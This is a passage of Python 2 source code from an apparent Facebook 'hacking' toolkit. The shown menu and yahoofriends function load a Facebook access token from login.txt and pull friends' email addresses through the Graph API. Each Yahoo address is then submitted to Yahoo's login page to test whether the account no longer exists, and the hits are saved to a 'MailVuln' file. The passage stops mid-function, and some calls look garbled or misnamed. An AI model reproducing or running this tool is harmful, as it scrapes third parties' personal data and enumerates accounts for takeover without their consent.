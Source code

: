 	go = raw_input("\033[1;97m╚═\033[1;91mD \033[1;97m")
	if go =="":
		print "\033[1;91m[!] Wrong"
		choose_yahoo()
	elif go =="1":
		yahoofriends()
	elif go =="2":
		yahoofromfriends()
	elif go =="3":
		yahoomember()
	elif go =="4":
		yahoolist()
	elif go =="0":
		menu_hack()
	else:
		print "\033[1;91m[!] Wrong"
		choose_yahoo()

##### LIST FRIEND #####
def yahoofriends():
	global fb_token
	os.system('clear')
	try:
		fb_token=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('clear')
	print logo
	mpsh = []
	jcsb = 0
	mkdir('\033[1;91m[✺] \033[1;92mGetting email friend \033[1;97m...')
	friends = requests.get('https://graph.facebook.com/me/friends?access_token='+fb_token)
	mitchy = json.loads(friends.text)
	save = open('out/MailVuln.txt','w')
	jamss('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
	print 42*"\033[1;97m═"
	for w in mitchy['data']:
		jcsb +=1
		mpsh.append(jcsb)
		id = w['id']
		fb_name = w['name']
		links = requests.get("https://graph.facebook.com/"+id+"?access_token="+fb_token)
		z = jams.loads(links.text)
		try:
			mail = z['email']
			yahoo = re.compile(r'@.*')
			otw = yahoo.search(mail).group()
			if 'yahoo.com' in otw:
				br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
				br._factory.is_html = True
				br.select_form(nr=0)
				br["username"] = mail
				click = br.submit().read()
				seat = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
				try:
					picks = seat.search(click).group()